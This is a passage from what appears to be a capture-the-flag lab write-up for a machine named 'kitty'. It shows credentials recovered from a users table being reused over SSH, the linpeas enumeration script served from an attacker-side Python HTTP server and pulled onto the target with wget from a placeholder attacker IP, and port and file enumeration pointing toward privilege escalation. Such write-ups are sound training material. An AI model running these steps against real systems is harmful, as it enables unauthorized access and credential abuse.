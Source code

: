 
Results :
- Columns name of `[TABLE_NAME]` : `id,password,username,created_at`
- Users info : `1,kitty,[REDACTED_PASS],2,aaaa,aaaaaa`

In the users info, we can see two accounts, the kitty's account
and one we created to test the register form.

Now that we have kitty's password, we can test it in SSH.

## Initial Access And Enumeration Through SSH

we can log with the credentials we found.

We are the user `kitty` and we are in `/home/kitty`. We have
access to the `user.txt` file. The home of `kitty` contains nothing
interesting.

We import the [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) enumeration script using a python http server on our attack machine.

On the attack machine :
```
+--> python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

On the kitty's machine :
```
kitty@kitty:~$ cd /tmp && wget [ATTACK_MACHIN_IP]:8000/linpeas.sh
```

After a quick enumeration (manual and linpeas),
we can see a few things :
- There is other web content stored in `/var/www/development/`
  instead of `/var/www/html`
- There are few localhost port occupied :
  ```
  kitty@kitty:~$ ss -lntp
  State     Recv-Q    Send-Q        Local Address:Port          Peer Address:Port    Process
  LISTEN    0         151               127.0.0.1:3306               0.0.0.0:*
  LISTEN    0         511               127.0.0.1:8080               0.0.0.0:*
  LISTEN    0         4096          127.0.0.53%lo:53                 0.0.0.0:*
  LISTEN    0         128                 0.0.0.0:22                 0.0.0.0:*
  LISTEN    0         70                127.0.0.1:33060              0.0.0.0:*
  LISTEN    0         511                       *:80                       *:*
  LISTEN    0         128                    [::]:22                    [::]:*
  ```

  The interesting port is `8080` since we already know the others
  (HTTP(`80`), MySQL (`3306`,`33060`), SSH (`22`) and DNS (`53`))
- The `/opt` directory isn't empty and contains a script that
  belongs to `root` (**remember that**):
  ```
  kitty@kitty:~$ ls -la /opt
  total 12
  drwxr-xr-x  2 root root 4096 Feb 25  2023 .
  drwxr-xr-x 19 root root 4096 Nov  8  2022 ..
  -rw-r--r--  1 root root  152 Feb 25  2023 log_checker.sh
  ```
